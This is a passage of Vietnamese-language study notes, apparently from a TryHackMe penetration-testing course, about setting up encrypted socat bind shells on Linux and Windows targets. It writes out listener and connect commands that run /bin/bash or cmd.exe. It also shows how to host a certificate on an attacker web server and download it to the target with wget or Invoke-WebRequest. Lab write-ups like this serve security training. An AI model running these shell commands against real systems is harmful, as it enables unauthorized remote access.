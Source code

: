 - Lệnh này kết nối đến listener được mã hóa và khởi chạy một shell bash.

**Bind Shell được mã hóa**

*Listener trên mục tiêu*:

Linux: 

    socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:/bin/bash

Windows: 

    socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

- Tùy chọn pipes giúp xử lý đầu vào và đầu ra giữa Unix và Windows CLI.

*Kết nối từ máy tấn công*:

    socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -

Lưu ý:

- Chứng chỉ (tệp .pem) phải được sử dụng trên cả máy tấn công và mục tiêu khi thiết lập listener.

- Để sao chép tệp .pem lên mục tiêu, có thể sử dụng máy chủ web trên máy tấn công:

        sudo python3 -m http.server 80

- Trên mục tiêu, tải tệp .pem bằng:

    Linux: 

        wget <LOCAL-IP>/shell.pem -O /tmp/shell.pem
    
    Windows: 

        Invoke-WebRequest -uri <LOCAL-IP>/shell.pem -outfile C:\Windows\Temp\shell.pem

Hình ảnh sau đây hiển thị shell OPENSSL Reverse từ mục tiêu Linux. Như thường lệ, mục tiêu ở bên phải và kẻ tấn công ở bên trái:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image7.png?raw=true)

**Task 8: Common Shell Payloads**
